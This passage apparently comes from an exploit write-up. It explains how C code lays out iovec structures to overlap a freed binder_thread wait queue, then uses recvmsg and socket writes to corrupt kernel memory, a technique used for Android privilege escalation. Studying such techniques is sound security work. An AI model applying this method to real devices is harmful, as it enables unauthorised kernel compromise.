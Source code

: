 ![](/assets/img/2023-05-27-16-44-04.png)

```c
iovecs[10].iov_base = m_lock_page;            // binder_thread->wait.lock
iovecs[10].iov_len = 1;                       // binder_thread->wait.head.next
```

First iovec that gets read is `iovecs[10]` . And it has `iov_len` of 1. This is so that when we do call `recvmsg(sock_fd[0], &message, MSG_WAITALL);`. It processes our junk data write ` write(sock_fd[1], junk_sock_data, sizeof(junk_sock_data));`.

```c
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
```

Second iovec that will get read will be from `child` process after they do `unlinking`.

```c
iovecs[IOVEC_WQ_INDEX + 2].iov_base = (void *)0x42424242;
iovecs[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
```
